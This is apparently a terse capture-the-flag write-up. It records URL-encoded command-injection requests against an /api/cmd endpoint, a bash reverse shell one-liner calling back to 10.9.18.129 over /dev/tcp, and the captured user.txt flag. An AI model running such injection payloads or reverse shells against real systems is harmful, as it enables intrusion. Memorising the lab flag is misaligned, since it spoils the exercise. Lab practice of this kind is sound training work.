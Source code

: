 # Commands

```
command injection

```

## Notes

```
export IP=10.10.235.33
```

## Questions

1. What are the contents of user.txt file?

```
/api/cmd/find%20%2F%20-name%20user.txt%202%3E%2Fdev%2Fnull => to find the file
/api/cmd/cd%20%2Fhome%2Fbestadmin%2Fuser.txt => to access user.txt (FAILED)

bash -i >& /dev/tcp/10.9.18.129/9000 0>&1 => Reverse shell

5W7WkjxBWwhe3RNsWJ3Q
```

